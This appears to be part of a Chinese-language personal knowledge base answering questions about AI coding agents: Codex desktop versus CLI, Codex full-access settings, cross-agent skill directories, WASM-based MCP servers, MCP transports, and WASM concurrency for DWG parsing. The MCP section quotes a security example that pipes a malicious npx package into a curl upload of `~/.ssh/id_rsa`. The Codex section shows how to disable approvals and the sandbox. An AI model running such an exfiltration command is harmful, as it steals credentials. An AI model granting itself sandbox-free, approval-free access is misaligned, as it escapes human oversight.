登录与计费：两者本地工作均支持 ChatGPT 登录与 API key 登录。ChatGPT 登录使用适用订阅权益；API key 按 API 用量计费，部分依赖 ChatGPT 工作区或云端服务的能力受限。「CLI 必须另买 API」与「桌面端只能用订阅」都不成立。

建议：需要在电脑前持续指导、检查网页或管理多个任务时优先桌面端；需要把任务放进脚本、远程终端或 CI 流程时优先 CLI。此建议基于官方工作流，不代表质量或速度实测结论。

信源（一手）：[Codex as a platform](https://developers.openai.com/blog/codex-as-a-platform)、[ChatGPT desktop app](https://learn.chatgpt.com/docs/app)、[Codex CLI](https://learn.chatgpt.com/docs/cli)、[Non-interactive mode](https://learn.chatgpt.com/docs/non-interactive-mode)、[Browser](https://learn.chatgpt.com/docs/browser)、[Authentication](https://learn.chatgpt.com/docs/auth)。

### 证据与时效 · q-20261029-006

- **信源**：[一手] [OpenAI：Codex as a platform](https://developers.openai.com/blog/codex-as-a-platform)；[一手] [ChatGPT desktop app](https://learn.chatgpt.com/docs/app)；[一手] [Codex CLI](https://learn.chatgpt.com/docs/cli)；各维度的具体依据见正文。
- **核实**：2026-10-29；查看 OpenAI 官方现行文档及其 Markdown 正文。范围为 ChatGPT desktop app 中的 Codex 与 Codex CLI；不把 ChatGPT 普通 Chat、Work 云端与本地 Codex 混成同一种执行方式。没有核验用户当前安装的版本、账户功能或同模型实测成绩。
- 原记录资料（未在迁移时复核）：[一手：Computer Use](https://learn.chatgpt.com/docs/computer-use)

## Codex 的完整访问权限设置

Codex 的 Full access 对应两个配置：`approval_policy = "never"` 与 `sandbox_mode = "danger-full-access"`。

- 终端启动：`codex --yolo`（即 `--dangerously-bypass-approvals-and-sandbox`）。
- 桌面/IDE：在输入框下方权限菜单选择 Full access。
- CLI 会话内：`/permissions`。
- 默认值写入用户 `~/.codex/config.toml` 顶层。

限制：`never` 仅关闭审批；必须同时取消沙箱才是完整访问。命令行参数、项目配置及组织强制要求仍可能影响结果。产品变更快，具体配置按问题日期（2026-10-25）重新核实。

信源（一手）：[Sandbox](https://learn.chatgpt.com/docs/sandboxing)、[Developer commands](https://learn.chatgpt.com/docs/developer-commands?surface=cli)、[Config basics](https://learn.chatgpt.com/docs/config-file/config-basic)。

### 证据与时效 · q-20261025-001

- **信源**：[一手] [OpenAI 官方文档：Sandbox](https://learn.chatgpt.com/docs/sandboxing)；[一手] [OpenAI 官方文档：Developer commands](https://learn.chatgpt.com/docs/developer-commands?surface=cli)；[一手] [OpenAI 官方文档：Config basics](https://learn.chatgpt.com/docs/config-file/config-basic)

## 跨智能体共享技能：项目 .agents/skills

推荐布局 `.agents/skills/<技能名>/SKILL.md`：每个技能一个独立子目录，`SKILL.md` 的 YAML 元数据写清 `name` 与 `description`，名称与技能目录名一致。不要因为某工具支持分组目录，就假定所有工具都递归发现多层技能；各宿主的专用元数据和执行工具也不完全通用。

已核实的项目路径支持（2026-10-29 核实，未在本机各工具中实测）：

| 工具／入口 | 直接发现项目 `.agents/skills/` 的依据 | 限制与核对方式 |
| --- | --- | --- |
| Codex | OpenAI 文档说明扫描从当前工作目录到仓库根目录各层的 `.agents/skills` | 先提供元数据，任务匹配时可隐式选用，也可显式调用；目录必须在当前环境可访问 |
| ZCode 当前开源 CLI／Agent | 官方 `08-skills.md` 明确默认发现用户及项目 `.zcode/skills` 和 `.agents/skills`；Git 工作区向工作树根查找 | 同级 `.zcode` 优先；启用态、重复名、元数据预算和构建版本影响结果；可用 `zcode skills list --cwd /absolute/path/to/project --json` 核对 |
| Cursor | 官方 Skill directories 表明确列出项目 `.agents/skills/` | 本地、远程、云端的用户级技能同步规则不同；不能从项目路径支持推断任意本机全局目录都会上传 |
| OpenCode | 官方文档列出 Project agent-compatible 路径 `.agents/skills/<name>/SKILL.md` | 项目发现从当前目录向 Git 工作树根查找；权限可以隐藏或禁止 Skill 工具 |
| Gemini CLI | 官方管理文档列出工作区 `.gemini/skills/` 和 `.agents/skills/` 别名 | 发现与实际激活分开，文档说明激活有确认步骤；可用 `/skills list` 和 `/skills reload` 核对 |
| GitHub Copilot CLI | 官方创建／安装指南列出 `.github/skills`、`.claude/skills`、`.agents/skills` | 模型按任务与描述决定使用，新增后可用 `/skills reload`；本结论仅核实 CLI，不自动外推所有编辑器入口 |
| Claude Code | 官方默认项目位置为 `.claude/skills/<name>/SKILL.md`；整页未检索到 `.agents/skills` | 原生直接扫描 `.agents/skills` 未核实；官方支持 `.claude/skills` 内的技能目录是指向别处的符号链接 |

ZCode 桌面 Skill 页只突出用户级 `~/.zcode/skills` 与外部技能导入，不能据此断言 `.agents/skills` 不支持；该路径的正向依据来自官方仓库的 CLI 指南，桌面设置中的技能列表可作为实际版本的可见性核对入口。[一手：ZCode 桌面 Skill 文档](https://zcode.z.ai/cn/docs/skill)、[一手：CLI 指南适用范围](https://github.com/zai-org/ZCode/blob/main/apps/zcode-cli/docs/usage/README.md)

「自动读取」分三个层次：

1. **发现**：工具扫描支持的目录，检查格式与启用状态，把技能放入可用清单。
2. **选择**：模型按名称、描述与当前任务判断是否使用，或用户显式指定；匹配依赖描述与宿主策略，不能保证每次触发。
3. **加载**：选用后才读取正文及所需资源；这不等于执行技能内所有脚本，也不自动保证它们在当前 Windows／WSL 环境都能运行。

Codex 官方明确使用渐进披露；ZCode 官方说明每轮注入启用技能的元数据、正文按需加载；OpenCode 和 Copilot CLI 也区分清单与实际加载。[一手：OpenAI Build skills](https://learn.chatgpt.com/docs/build-skills)、[一手：ZCode Skill](https://zcode.z.ai/cn/docs/skill)、[一手：OpenCode Skills](https://docs.opencode.ai/docs/skills/)、[一手：Copilot CLI](https://docs.github.com/en/copilot/how-tos/copilot-cli/customize-copilot/add-skills)

因此自动发现不等于正文常驻，也不等于每个相关请求必然调用。`AGENTS.md` 是项目指令文件，`.agents/skills/` 是技能发现目录；某工具会读 `AGENTS.md` 不能证明它也扫描 `.agents/skills`。需要长期共用时，可把 `.agents/skills` 作为主存放位置，为缺少该默认发现入口的宿主增加其支持的技能目录链接；本次仅给方案，没有创建或改动项目技能文件。[一手：Claude Code 技能目录与链接规则](https://code.claude.com/docs/en/skills#choose-where-skills-load)

信源（一手）：[OpenAI：Build skills](https://learn.chatgpt.com/docs/build-skills)、[ZCode：Skills 使用指南](https://github.com/zai-org/ZCode/blob/main/apps/zcode-cli/docs/usage/08-skills.md)、[ZCode：桌面 Skill 管理](https://zcode.z.ai/cn/docs/skill)、[Cursor：Agent Skills](https://cursor.com/docs/skills)、[OpenCode：Agent Skills](https://docs.opencode.ai/docs/skills/)、[Gemini CLI：Managing Agent Skills](https://github.com/google-gemini/gemini-cli/blob/main/docs/cli/using-agent-skills.md)、[GitHub Copilot CLI：添加技能](https://docs.github.com/en/copilot/how-tos/copilot-cli/customize-copilot/add-skills)、[Claude Code：加载位置与链接](https://code.claude.com/docs/en/skills#choose-where-skills-load)。

### 证据与时效 · q-20261029-005

- **信源**：[一手] [OpenAI：Build skills](https://learn.chatgpt.com/docs/build-skills)；[一手] [ZCode 官方仓库：Skills 使用指南](https://github.com/zai-org/ZCode/blob/main/apps/zcode-cli/docs/usage/08-skills.md)；[一手] [Cursor：Agent Skills](https://cursor.com/docs/skills)；[一手] [OpenCode：Agent Skills](https://docs.opencode.ai/docs/skills/)；[一手] [Gemini CLI 官方仓库：Managing Agent Skills](https://github.com/google-gemini/gemini-cli/blob/main/docs/cli/using-agent-skills.md)；[一手] [GitHub Copilot CLI：添加技能](https://docs.github.com/en/copilot/how-tos/copilot-cli/customize-copilot/add-skills)；[一手] [Claude Code：Skill 加载位置](https://code.claude.com/docs/en/skills#choose-where-skills-load)
- **核实**：2026-10-29；逐项查看上述官方文档，Codex 依据 OpenAI Docs，ZCode 依据官方仓库随源码维护的 CLI 指南及桌面 Skill 文档。没有在用户当前安装的各工具中实际测试；清单不是所有智能体的完整名单，也不保证旧构建、技能被停用、目录不可访问或格式不合法时仍会发现。ZCode 指南明确当前源码行为不等于所有旧二进制行为。

## WebAssembly 的 MCP 工具封装

三种封装形态均已落地。可行性根据：MCP 规范只定义 JSON-RPC 消息与传输绑定，明确与传输无关（transport-agnostic），不约束服务器实现技术。

- **形态一（自建宿主）**：用 MCP SDK 写服务器，在工具 handler 内经 Wasmtime 或 Extism 调用 WebAssembly（WASM）导出函数。
- **形态二（通用插件型服务器）**：微软 Wassette 用 Wasmtime 加 WIT（WebAssembly Interface Types）接口生成 MCP 工具，OCI（Open Containers Initiative）制品分发，默认拒绝授权；hyper-mcp 基于 Extism 插件，可配 allowed_hosts 与 memory_limit，带 sigstore 签名。原仓库 2026-01-11 归档并迁移。
- **形态三（服务器整体编译为 WASM）**：Spin/Wasmcp 把工具与中间件组合为单个 server.wasm，导出 wasi:cli/run（stdio）或 wasi:http/incoming-handler（Streamable HTTP）。

收益：能力式沙箱；OCI 小体积分发。限制：系统能力须宿主显式授予；移植到组件模型（Component Model）有门槛；会话与授权在各运行时实现碎片化。另：mcp.run 经 301 重定向至 turbomcp.ai，后者未再提及 WASM，原注册表现状未核实。

信源（一手）：[MCP 规范·传输（2026-07-28 版）](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports)、[微软 Wassette 发布文](https://opensource.microsoft.com/blog/2025/08/06/introducing-wassette-webassembly-based-tools-for-ai-agents)、[Spin/Wasmcp 博文](https://spinframework.dev/blog/mcp-with-wasmcp)、[Wasmtime 官网](https://wasmtime.dev/)、[hyper-mcp 仓库（归档，项目已迁移）](https://github.com/tuananh/hyper-mcp)。

### 证据与时效 · q-20261020-001

- **信源**：[一手] [MCP 规范·传输（2026-07-28 版）](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports)；[一手] [微软 Wassette 发布文](https://opensource.microsoft.com/blog/2025/08/06/introducing-wassette-webassembly-based-tools-for-ai-agents)；[一手] [Spin/Wasmcp 博文](https://spinframework.dev/blog/mcp-with-wasmcp)；[一手] [Wasmtime 官网（可嵌入运行时与多语言绑定）](https://wasmtime.dev/)；[一手] [tuananh/hyper-mcp 仓库（归档，项目已迁移）](https://github.com/tuananh/hyper-mcp)；注：mcp.run 经 301 重定向至 turbomcp.ai，后者未再提及 WASM，原注册表现状未核实

## MCP 服务器的接入方式：本地进程与远程 HTTP

先分清维度：npx 是包执行与启动命令；stdio 和 Streamable HTTP 才是 MCP 传输。启动命令、传输方式、部署位置与并发能力是不同维度。

修正记录（2026-10-25）：旧答案把「npx 还是 HTTP」当作二选一，并称 SSE 已弃用。修正为：弃用的是旧 HTTP+SSE 传输；当前 Streamable HTTP 仍可用请求级 SSE。

选择逻辑：

- 需要直接访问本机（文件、数据库、本地进程）的工具，通常要求服务器或桥接组件在本机运行；本机服务器可用 stdio 或回环 HTTP；选择还受具体宿主支持限制。
- 提供官方托管 URL 的云服务用 HTTP。Claude Code 官方推荐远程用 HTTP：支持 OAuth 登录与掉线自动重连；stdio 本地进程不自动重连。
- 云端与网页客户端（如 claude.ai 连接器）只能用 HTTP。

安全取舍（本地服务器权限与远程数据暴露分别评估）：

- npx 启动的第三方 npm 包以你的用户权限在本机执行，是 MCP 安全文档明确列出的任意代码执行与数据外传攻击面；官方示例即 `npx malicious-package && curl -d @~/.ssh/id_rsa …`。npx 的好处是数据不出机（除非工具自身联网）。
- HTTP 服务器代码不在本机跑；但对方可见全部请求数据。

信源（一手）：[Claude Code MCP 文档](https://code.claude.com/docs/en/mcp)、[MCP 安全最佳实践 2026-07-28 版](https://modelcontextprotocol.io/specification/2026-07-28/basic/security_best_practices)、[stdio 规范](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports/stdio)、[Streamable HTTP 规范](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports/streamable-http)。

- **本次核实**：[一手] [stdio 规范](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports/stdio)；[一手] [Streamable HTTP 规范（含本机绑定和 SSE）](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports/streamable-http)

### 证据与时效 · q-20261020-002

- **信源**：[一手] [Claude Code MCP 文档（添加方式、作用域、OAuth、重连）](https://code.claude.com/docs/en/mcp)；[一手] [MCP 安全最佳实践 2026-07-28 版（Local MCP Server Compromise）](https://modelcontextprotocol.io/specification/2026-07-28/basic/security_best_practices)；[一手] [MCP 规范·传输](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports)

## WASM 云端并发与 C++ 取舍：DWG 处理案例

**并发与 WASM 无关。** Wasmtime 官方语义：每个实例独占线性内存；Store 是隔离边界；不同 Store 的实例可跨线程并行；Engine（编译产物）线程间共享，模块只编译一次。按请求实例化即请求间零共享，天然隔离、可扩展。

DWG 处理「传文件、回结果」天然无状态，MCP 协议本身也无状态。多人并发是普通后端问题：水平扩展、网关认证限流、单实例内存与时间限额。

修正记录（2026-10-25）：旧结论称单个 stdio MCP 服务器进程内的工具调用在该实例内串行排队。修正为：stdio 只规定共享通道、消息分帧和按请求 ID 关联结果，不强制工具串行；实际并发取决于 SDK、处理函数和资源限制。

C++ 替代的取舍：

- 可信用户加自有服务器：用 C++ 的直觉正确。原生更简单，无 WASM 开销（官方称接近原生，具体百分比未实测）。
- 公网接收不可信 DWG 上传：WASM 内存沙箱仍有真实价值。DWG 解析器是内存安全重灾区：已核实 LibreDWG CVE-2025-61154——decode.c 的 decompress_R2004_section 堆溢出，恶意 DWG 触发拒绝服务（Denial of Service，DoS），CVSS 6.5；另检索命中 CVE-2026-15520/9502/9602 同类（摘要命中，未逐条打开原文）。原生代码堆写溢出最坏可升级为代码执行；WASM 中溢出被限制在线性内存内，最多该请求崩溃。
- 次级价值：每请求一实例的隔离密度比容器便宜（ResourceLimiter、PoolingAllocator 为此设计）；同一 .wasm 跨本地、边缘、云端复用。

信源（一手）：[Wasmtime API 文档](https://docs.rs/wasmtime/latest/wasmtime/)、[GHSA-37rg-q294-rgvc / CVE-2025-61154 通告](https://github.com/advisories/GHSA-37rg-q294-rgvc)、[MCP 安全最佳实践](https://modelcontextprotocol.io/specification/2026-07-28/basic/security_best_practices)、[MCP 基础消息与请求 ID](https://modelcontextprotocol.io/specification/2026-07-28/basic)。

- **本次核实**：[一手] [MCP 基础消息与请求 ID](https://modelcontextprotocol.io/specification/2026-07-28/basic)；[一手] [stdio 共享通道与消息关联](https://modelcontextprotocol.io/specification/2026-07-28/basic/transports/stdio)

### 证据与时效 · q-20261020-003

- **信源**：[一手] [Wasmtime API 文档（Engine/Store/Instance 并发与隔离语义）](https://docs.rs/wasmtime/latest/wasmtime/)；[一手] [GHSA-37rg-q294-rgvc / CVE-2025-61154 通告原文](https://github.com/advisories/GHSA-37rg-q294-rgvc)；[一手] [MCP 安全最佳实践（协议无状态）](https://modelcontextprotocol.io/specification/2026-07-28/basic/security_best_practices)；检索线索（摘要命中、未逐条打开原文）：CVE-2026-15520、CVE-2026-9502、CVE-2026-9602（SentinelOne/NVD，均指向 libredwg 溢出）；NVD 详情页动态渲染未能直接抓取

## 提问记录

### q-20260922-004

- **原题**：2026-09-22 · 国内外 AI Agent 编程工具概览
- **问**：目前市面上有哪些 AI Agent 编程工具，国内国外都整理。
- **领域**：AI 编程
- **首次**：2026-09-22
- **更新**：2026-09-22
- **正文**：[编程智能体工具全景](#编程智能体工具全景)
- **关联**：[2026-09-21 · 系统学习 Claude Code 与 Agent 原理的学习地图](Claude%20Code.md#q-20260921-006)

### q-20260923-006

- **原题**：2026-09-23 · Grok Bot 是什么：常驻智能体队友产品
- **问**：Grok bot 是什么？
- **领域**：AI 编程
- **首次**：2026-09-23
- **更新**：2026-09-23
- **正文**：[常驻智能体队友：Grok Bot](#常驻智能体队友grok-bot)

### q-20260928-002

- **原题**：2026-09-28 · OpenCode 可以使用哪些模型
- **问**：opencode中可以用哪些模型？
- **领域**：AI 编程
- **首次**：2026-09-28
- **更新**：2026-09-28
- **正文**：[OpenCode 可用的模型](#opencode-可用的模型)

### q-20261019-001

- **原题**：2026-10-19 · ZCode 桌面版基于什么技术打包 JS
- **问**：GitHub 仓库 zai-org/ZCode 基于什么技术将 JS 做成桌面端？
- **领域**：AI 编程
- **首次**：2026-10-19
- **更新**：2026-10-19
- **正文**：[ZCode 桌面版的打包与分发](#zcode-桌面版的打包与分发)

### q-20261020-001

- **原题**：2026-10-20 · 将 WASM 封装为 MCP 供 Agent 调用的可行性与形态
- **问**：是否可以将 WASM 封装成 MCP 供 agent 调用？
- **领域**：AI 编程
- **首次**：2026-10-20
- **更新**：2026-10-25
- **正文**：[WebAssembly 的 MCP 工具封装](#webassembly-的-mcp-工具封装)
- **关联**：[2026-09-21 · 系统学习 Claude Code 与 Agent 原理的学习地图](Claude%20Code.md#q-20260921-006)；[2026-10-13 · AutoCAD 自动化操作 MCP 的官方与社区现状](../工具与设计/AutoCAD.md#q-20261013-004)；[2026-10-25 · 系统学习 MCP 的完整路线与知识点](MCP.md#q-20261025-003)

### q-20261020-002

- **原题**：2026-10-20 · MCP 服务器接入方式：npx 本地与 HTTP 远程的选择
- **问**：mcp 有 npx 和 http，建议哪种方式？
- **领域**：AI 编程
- **首次**：2026-10-20
- **更新**：2026-10-25
- **正文**：[MCP 服务器的接入方式：本地进程与远程 HTTP](#mcp-服务器的接入方式本地进程与远程-http)
- **关联**：[2026-10-25 · 系统学习 MCP 的完整路线与知识点](MCP.md#q-20261025-003)

### q-20261020-003

- **原题**：2026-10-20 · DWG 处理 WASM 云端部署的并发与 C++ 替代问题
- **问**：处理 DWG 文件的 WASM 放云端会不会有并发/多人同时使用问题？云端是不是可以直接用 C++，都没必要用 WASM？
- **领域**：AI 编程
- **首次**：2026-10-20
- **更新**：2026-10-25
- **正文**：[WASM 云端并发与 C++ 取舍：DWG 处理案例](#wasm-云端并发与-c-取舍dwg-处理案例)
- **关联**：[2026-10-25 · 系统学习 MCP 的完整路线与知识点](MCP.md#q-20261025-003)

### q-20261025-001

- **原题**：2026-10-25 · Codex 如何设置无需审批的完整访问权限
- **问**：Codex 如何设置类似 Claude Code 的 bypass permissions on 完全权限？
- **领域**：AI 编程
- **首次**：2026-10-25
- **更新**：2026-10-25
- **正文**：[Codex 的完整访问权限设置](#codex-的完整访问权限设置)

### q-20261029-002

- **原题**：2026-10-29 · ZCode 与 Claude Code 的当前差距
- **问**：ZCode 现在和 Claude Code 之间存在差距吗？
- **领域**：AI 编程
- **首次**：2026-10-29
- **更新**：2026-10-29
- **正文**：[ZCode 与 Claude Code 的差距](#zcode-与-claude-code-的差距)
- **关联**：[2026-09-22 · 国内外 AI Agent 编程工具概览](AI%20编程.md#q-20260922-004)

### q-20261029-005

- **原题**：2026-10-29 · 项目 .agents/skills 的跨智能体自动发现支持
- **问**：在项目 `.agents` 目录下放 Skill，现在会被哪些 Agent 自动读取，ZCode 和 Codex 是否支持？
- **领域**：AI 编程
- **首次**：2026-10-29
- **更新**：2026-10-29
- **正文**：[跨智能体共享技能：项目 .agents/skills](#跨智能体共享技能项目-agentsskills)
- **关联**：[2026-10-12 · Claude Code 高质量编程插件的选择与组合](Claude%20Code.md#q-20261012-002)；[2026-10-29 · ZCode 与 Claude Code 的当前差距](AI%20编程.md#q-20261029-002)

### q-20261029-006

- **原题**：2026-10-29 · Codex 桌面端（ChatGPT）与 Codex CLI 的差距
- **问**：对比 Codex 桌面端（ChatGPT）和 Codex CLI 的差距。
- **领域**：AI 编程
- **首次**：2026-10-29
- **更新**：2026-10-29
- **正文**：[Codex 桌面端与 CLI 的分工](#codex-桌面端与-cli-的分工)
- **关联**：[2026-10-25 · Codex 如何设置无需审批的完整访问权限](AI%20编程.md#q-20261025-001)；[2026-10-29 · 项目 .agents/skills 的跨智能体自动发现支持](AI%20编程.md#q-20261029-005)
